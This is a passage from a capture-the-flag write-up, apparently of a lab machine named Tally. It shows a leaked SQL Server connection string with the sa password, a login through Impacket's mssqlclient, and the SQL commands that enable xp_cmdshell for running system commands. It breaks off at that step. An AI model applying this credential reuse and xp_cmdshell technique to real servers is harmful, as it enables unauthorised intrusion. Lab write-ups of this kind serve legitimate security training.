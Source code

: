 ```text
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
```

| username | password               | usage         |
| ---     | ---                     | ---           |
| sa      | GWE3V65#6KFH93@4GWTG2G  | MS SQL server |

### Microsoft SQL Server 2016 - 1433/tcp

Using the previous user/password, we can connect to the MS SQL Server :

```shell
mssqlclient.py sa:'GWE3V65#6KFH93@4GWTG2G'@tally
```

Result:

```text
Impacket for Exegol - v0.10.1.dev1+20230318.114933.11c51f7 - Copyright 2022 Fortra - forked by ThePorgs

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(TALLY): Line 1: Changed database context to 'master'.
[*] INFO(TALLY): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 665) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> 
```

Following [Hacktricks: 1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server), we can do some enumeration, but we can use this session to execute commands directly.

## Initial access

### Exploitation


Still following Following [Hacktricks: 1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server), we can execute system commands :

```sql
# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
